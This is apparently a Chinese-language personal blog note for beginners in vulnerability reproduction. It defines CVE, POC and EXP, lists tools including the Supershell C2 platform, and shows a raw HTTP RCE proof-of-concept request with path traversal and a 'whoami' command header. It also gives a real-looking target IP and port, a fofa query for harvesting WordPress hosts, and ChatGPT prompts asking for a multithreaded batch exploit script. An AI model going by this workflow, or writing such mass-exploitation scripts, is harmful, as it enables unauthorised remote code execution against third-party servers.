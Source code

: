 ```yaml
---
title: 网络安全初级之路
date: 2024-07-04 14:13:29
tags: 网络安全
---
```



### 网络安全初级之路

一、CVE、POC、EXP、REC的 概念



       1、【CVE】: 公开漏洞标识，个人理解为公开漏洞之后的一个编码，根据这个编码可以找到对应漏洞描述信息。
    
       2、【POC】：理解为用一些数据包完成 漏洞的复现，  EXP一般需要基于poc 完成。
    
       3、【EXP】：漏洞利用脚本，为某些洞开发的一些脚本。
    
       4、【RCE】 远程执行的漏洞类型，同类还有 **SQL 注入** 、**跨站请求伪造**、中间人伪造等

二、环境准备

	  1、完成漏洞复现需要下载工具 yakit    官网下载地址：https://yaklang.com/ 
	
	  2、fofa高级会员（咸鱼购买）、以及fofaMap   目前还没有用到 （ubuntu20）
	
	  3、dnslog http://dnslog.pw/dns/    查询是否复现成功的
	
	  4、Supershell是一个通过WEB服务访问的C2远控平台，通过建立反向SSH隧道，获取完全交互式Shell，支持多平台架构
	
	  5、chatgpt


​			

三、开始复现

      1、复现过程（暂时没有，需要补充）



​    

     2、 poc 一般 都是 cve+poc 也是靠找

```
POST /captcha/%2e%2e/template/html/add HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/98.0.155.44 Safari/537.36
Content-Type: application/json
X-State: whoami
```

     3、资产需要根据fofa+关键字去找

```
218.94.84.154:9184
XXX
xxx
```



   4、poc中的信息改成 dnslog的三级域名 开始执行



  5、等到 dnslog 回显代表复现成功

  6、开始利用poc开始写exp

	话术：
	
	根据以下poc写一个exp批量脚本 python 
		1.从target.txt读取url或IP
		2.判断读取数据是否有https://或http://头 若缺失 则加上http://
		3.采用queue队列多线程优化代码
		4、请求超时时间调整为 5秒
		
	分析以下python代码 用httpraw展示请求	
		

7、拉取资产

```
python3 fofamap.py -q 'body="/wp-content/themes/bricks/"' -s  -o caonima.txt
```

8、chatgpt应用

根据以下poc写一个exp批量脚本 python
1.从HFS.txt读取url或IP
2.判断读取数据是否有https://或http://头 若缺失 则加上http://
3.采用queue队列多线程优化代码
4、屏蔽ssl不安全的警告

补充：[【安全】漏洞名词扫盲（POC，EXP，CVE，CVSS等）_漏洞exp-CSDN博客](https://blog.csdn.net/qqchaozai/article/details/103567861)

 chagpt：https://gpt.chyvpn.cyou/user-new/#/register?i=3n4Bm

[OVHcloud VPS - Your virtual private server in the cloud](https://us.ovhcloud.com/vps/)    用于做防御墙看量

https://j1.vip?c=pMbrqVV  未知